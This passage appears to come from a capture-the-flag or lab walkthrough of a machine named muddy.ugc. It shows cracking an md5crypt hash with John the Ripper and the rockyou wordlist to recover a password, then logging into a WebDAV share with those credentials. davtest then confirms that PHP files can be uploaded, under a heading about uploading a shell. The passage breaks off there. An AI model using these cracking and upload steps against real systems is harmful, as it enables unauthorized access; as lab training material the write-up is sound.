 This hash can be cracked to give the password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sleepless        (?)     
1g 0:00:00:00 DONE (2023-07-21 16:38) 3.125g/s 219000p/s 219000c/s 219000C/s softball30..ramarama
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can login to the `/webdav` instance:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

### Webdav Upload Shell

I tested whether we could upload files using `davtest`:

```
$ davtest -url http://muddy.ugc/webdav -auth administrant:sleepless
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://muddy.ugc/webdav
********************************************************
NOTE    Random string for this session: 4qtgGAJnSK33jj
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://muddy.ugc/webdav/DavTestDir_4qtgGAJnSK33jj
********************************************************
 Sending test files
PUT     html    SUCCEED:        http://muddy.ugc/webdav/DavTestDir_4qtgGAJnSK33jj/davtest_4qtgGAJnSK33jj.html
PUT     php     SUCCEED:        http://muddy.ugc/webdav/DavTestDir_4qtgGAJnSK33jj/davtest_4qtgGAJnSK33jj.php
```
